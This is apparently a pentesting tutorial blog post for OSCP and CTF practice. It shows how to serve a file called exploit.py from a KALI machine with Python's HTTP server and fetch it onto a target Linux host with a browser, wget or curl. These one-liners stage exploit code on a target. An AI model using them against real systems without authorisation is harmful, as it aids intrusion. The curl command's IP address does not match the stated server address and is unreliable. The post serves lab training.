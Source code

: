 ```yaml
---
layout: post
title: 'File Transfers: Part 1'
date: '2022-10-22 17:57:48 +0100'
categories: [Tutorial, OSCP]
tags: [linux, oscp, python, file-transfer, pentesting, code, tutorial, ctf]
---
```


This is part of a series of tutorials on file transfer methods for pentesting and CTF scenarios.

# Linux to Linux File Transfer

## Scenario

- We have two Linux systems connected to the same local network

KALI - 192.168.56.103<br>
UBUNTU - 192.168.56.102

- We have a file `exploit.py` that we want to transfer from KALI to UBUNTU.

- The file starts off on our KALI machine in `/tmp/transfers`.
As we can see, the `/tmp/transfers` directory on UBUNTU is currently empty.

![ft1.png](/assets/img/ft1.png)
<br>
![ft2.png](/assets/img/ft2.png)

In order to transfer a file FROM a Linux machine, we need to make it accessible to a remote machine. 
There are a number of ways we can do this. However, for this tutorial we will be using the **Python HTTP Server**.

## Serving Files with Python HTTP Server

The setup is a very simple one-liner. The HTTP Server will serve all the files in the directory from 
which we execute the command. So the first step is to `cd` to the directory where the file(s) you want
to share reside.

**To start the HTTP server:**

### Python 3.x

`python3 -m http.server`

![http1](/assets/img/http1.png)

### Python 2.x

`python2 -m SimpleHTTPServer`

![http2](/assets/img/http2.png) 
<br>
As we can see from the screenshots above, the default port for the server is 8000. 
We can change that to a port of our choosing by adding it to the end of the command.

`python3 -m http.server 80`

Now we are ready to transfer our `exploit.py` file.

## Transferring Files

On our KALI system we start the HTTP server from the directory containing `exploit.py`.

![http1](/assets/img/http1.png)

From our UBUNTU system, we have a number of ways to transfer the file.

### 1. Web Browser

We browse to the file in a web browser, making sure to include the right port in the URL, click on the file we want, and it will download to our system.

![browse-file](/assets/img/browsefile.png)




### 2. Wget

While there is no guarantee, it is common to find Linux systems will this tool installed. A GET request is a simple one-liner.
Here we have used the `-O` option, to output a file to a specified location.

`wget http://192.168.56.103:8000/exploit.py -O /tmp/transfers/exploit.py`

![wget](/assets/img/wget.png)
<br>
Looking back at our KALI system, we can see the GET request made by **wget**
![request1](/assets/img/request1.png)

### 3. Curl

Again, there is no guarantee that this tool will be present on a Linux system, but it is widely used, and if present on a system it also provides an easy method of performing a GET request. Here we have used the `-o` option to output the file to a specified location.

`curl http://192.168.56.130:8000/exploit.py -o /tmp/transfers/exploit.py`

![curl](/assets/img/curl.png)
<br>
Again, looking back at our KALI system, we can see the second GET request, this time made by **curl**
![request2](/assets/img/request2.png)

## Explore Your Tools

Both **wget** and **curl** have a large number of options and can be used to perform complex tasks.
It is well worth getting to know both of these tools better. The best way to do this is to check out
their **man pages** on Linux, and search for more info online.

Some good places to start would be finding out how to:

- Transfer multiple files with one command
- Perform POST requests

## Conclusion

I hope you found this tutorial helpful, thanks for reading!
